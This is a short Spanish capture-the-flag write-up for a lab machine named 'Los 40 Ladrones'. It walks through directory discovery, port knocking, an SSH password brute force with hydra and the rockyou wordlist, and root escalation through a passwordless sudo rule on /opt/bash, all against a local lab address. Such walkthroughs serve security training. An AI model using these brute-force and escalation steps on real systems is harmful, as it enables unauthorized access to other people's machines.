


# Los 40 Ladrones

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
Gobuster -> /qdefense.txt

```text
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Posible usuario *toctoc*
Hacemos nmap en esos puertos y descubrimos que los puertos están filtrados



Haciendo port knocking en 7000 8000 9000 con:
`knock -v 172.17.0.2 7000 8000 9000`
Ahora al hacer nmap se desbloquean puertos nuevos:



intentamos conectarnos a ssh con *toctoc*
`hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**kittycat**
**toctoc**

## Escalada

*(ALL : NOPASSWD) /opt/bash
(ALL : NOPASSWD) /ahora/noesta/function*

`sudo cat bash`

```text
Sorry, user toctoc is not allowed to execute '/usr/bin/cat bash' as root on 1ae7317e0e65.
```


`sudo /opt/bash`
**root**
